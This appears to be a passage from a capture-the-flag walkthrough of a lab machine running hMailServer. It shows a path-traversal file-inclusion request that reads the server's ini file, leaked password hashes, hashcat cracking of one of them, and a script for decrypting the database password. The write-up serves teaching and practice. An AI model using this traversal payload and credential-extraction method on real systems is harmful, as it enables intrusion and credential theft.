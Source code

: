 We have a service name called `hMailServer`, we have potential users with the names of the employees, and we have a potential LFI vulnerability with the download link which ports to `http://mailing.htb/download.php?file=instructions.pdf`. Maybe we can pick another file there. I create a users.txt file with their names. For Ruy Alonso I add:

```
ruyalonso
ruy.alonso
ralonso
r.alonso
ruy
```

And similar options for the others. 

I also check for `hMailServer` in exploit-db, and I find one non-Dos option [here](https://www.exploit-db.com/exploits/7012). It references the file inclusion vunerability I already found, and it also suggests some interesting files and what to do with them:

```
hMailServer.INI - contains two interesting fields:
- the "Administrator password" crypted with md5,
- by having knowledge of that you can calculate the MySQL root password,
  specified in the "password" field.
  You can do this by using the /Addons/Utilities/DecryptBlowfish.vbs script
```

After spending a while trying different paths, I find `http://mailing.htb/download.php?file=../../Program+Files+(x86)/hMailserver/Bin/hmailserver.ini` which contains this:

```
...
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
```

The AdministratorPassword we know is encrypted with md5, so we can crack it with hashcat (`hashcat -m 0`), and it cracks to: `homenetworkingadministrator`. So we have password to get started and can check it against our list of users. I try this, but nothing works, so maybe we can find the other password with the mentioned `DecrpytBlowfish.vbs` script, which looks like this:

```
Option Explicit

Dim oApp
Set oApp = CreateObject("hMailServer.Application")

' BEGIN: Authenticate the client.
Dim sAdminPwd
sAdminPwd = InputBox("Enter your main hMailServer administrator password.", "hMailServer")
Call oApp.Authenticate ("Administrator", sAdminPwd)
' END: Authenticate the client.

dim sInput
sInput = Inputbox("Enter encrypted password", "hMailServer")

dim sOutput
sOutput = oApp.Utilities.BlowfishDecrypt(sInput)

MsgBox sOutput

```